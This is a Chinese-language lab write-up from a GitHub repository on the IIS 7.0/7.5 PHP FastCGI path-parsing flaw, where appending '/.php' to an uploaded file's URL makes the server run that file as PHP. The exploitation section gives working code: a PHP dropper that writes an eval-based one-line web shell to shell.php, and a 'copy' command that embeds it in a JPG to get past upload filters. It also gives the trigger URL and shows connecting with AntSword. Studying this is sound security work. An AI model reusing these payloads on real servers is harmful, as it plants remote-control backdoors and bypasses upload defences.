 # IIS7.0/7.5解析漏洞

> IIS7.0/7.5本身没有解析漏洞，但是当IIS通过[FastCGI](https://baike.baidu.com/item/FastCGI)解析PHP语言时，由于FastCGI配置中的cgi.fix_pathinfo默认为1（即开启状态），导致在对文件进行解析时形成解析漏洞，因此，IIS7.0/7.5解析漏洞实际上是PHP FastCGI解析漏洞

## 漏洞原理

> 如果IIS7.0/7.5通过FastCGI的方式支持PHP解析，当访问`http://172.16.16.24/index.jpg/xx.php`时，$fastcgi_script_name会被设置为 `index.jpg/xx.php`，如果开启cgi.fix_pathinfo，PHP会认为SCRIPT_FILENAME是`index.jpg`，而`xx.php`是PATH_INFO，所以就会将`index.jpg`作为PHP文件来进行解析，从而形成解析漏洞

:pencil:**Thinking**  

> 通过上传点，上传一个包含木马的任意格式的文件，在菜刀连接时或者解析时，在完整访问路径下添加`/*.php`（无论`*.php`文件是否存在），该文件就会以PHP的形式进行解析

## 测试环境

- **操作系统**：Windows Server 2008 R2
- **应用服务**：IIS 7.5
- **解析语言**：PHP 7.2.17
- **测试时间**：2019/4/25

## 测试内容

- [漏洞测试](#0x01-漏洞测试)
- [漏洞利用](#0x02-漏洞利用)

## 测试过程

### 0x01 漏洞测试

> 在IIS服务器下上传一个phpinfo文件，并以`.doc`命名

```php
<?php phpinfo();?>
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

> 在浏览器中访问如下路径，以`.doc`命名的PHP文件正常解析

```http
http://172.16.16.24/a.doc/.php
```

![iis7.5_0002](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0002.PNG)

:pencil:**Thinking**  

> 此处对`.doc`、`.jpg`、`.txt`、`.asp`等格式的PHP文件进行了测试，均存在该解析漏洞

### 0x02 漏洞利用

> 通过上传点，上传一个图片木马，然后访问该图片木马，让其在本目录下生成一个shell.php，通过该方法可以绕过上传白名单检测，文件内容检测

**制作图片木马**

> 一张正常图片b.jpg和一个内容如下的a.txt

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

:pencil:**Thinking**  

> 该PHP的意义是：当该PHP文件解析时，会在相同目录下生成一个包含一句话木马的shell.php文件，其中写入的一句话木马可以根据实际环境进行修改。本实验采用的PHP版本大于7，在PHP7之后的版本，PHP语言做了更改，很多函数无法使用，所以PHP小于7的木马文件在本环境中很可能无法使用，并且菜刀在实现文件管理器的时候用的是assert函数，这导致菜刀没办法在PHP7上正常运行，由于蚁剑没有用到assert函数，所以本测试使用蚁剑作为一句话木马的文件管理器

> 使用cmd中的copy命令生成图片木马，将文本写入图片的二进制代码之后，避免破坏图片头和尾

```
copy b.jpg/b + a.txt/a ab.jpg
```

![iis7.5_0003](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0003.PNG)

**文件上传和解析**

> 把制作的图片木马上传至网站目录下，然后在浏览器中访问如下地址，会发现该图片木马正常解析，并在该图片相同目录下生成shell.php文件

```http
http://172.16.16.24/ab.jpg/.php
```

![iis7.5_0004](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0004.PNG)

![iis7.5_0005](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0005.PNG)

**蚁剑连接**

> 通过蚁剑连接shell.php，可以正常连接

![iis7.5_0006](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0006.PNG)

:pencil:**Thinking**  

> 以上漏洞利用方法，是通过解析图片生成一句话木马，这种方法是为了绕过上传检测。如果上传检测不严格，可以直接上传任意格式的PHP木马文件，在访问完整路径下加上`/.php`用蚁剑也能直接连接





























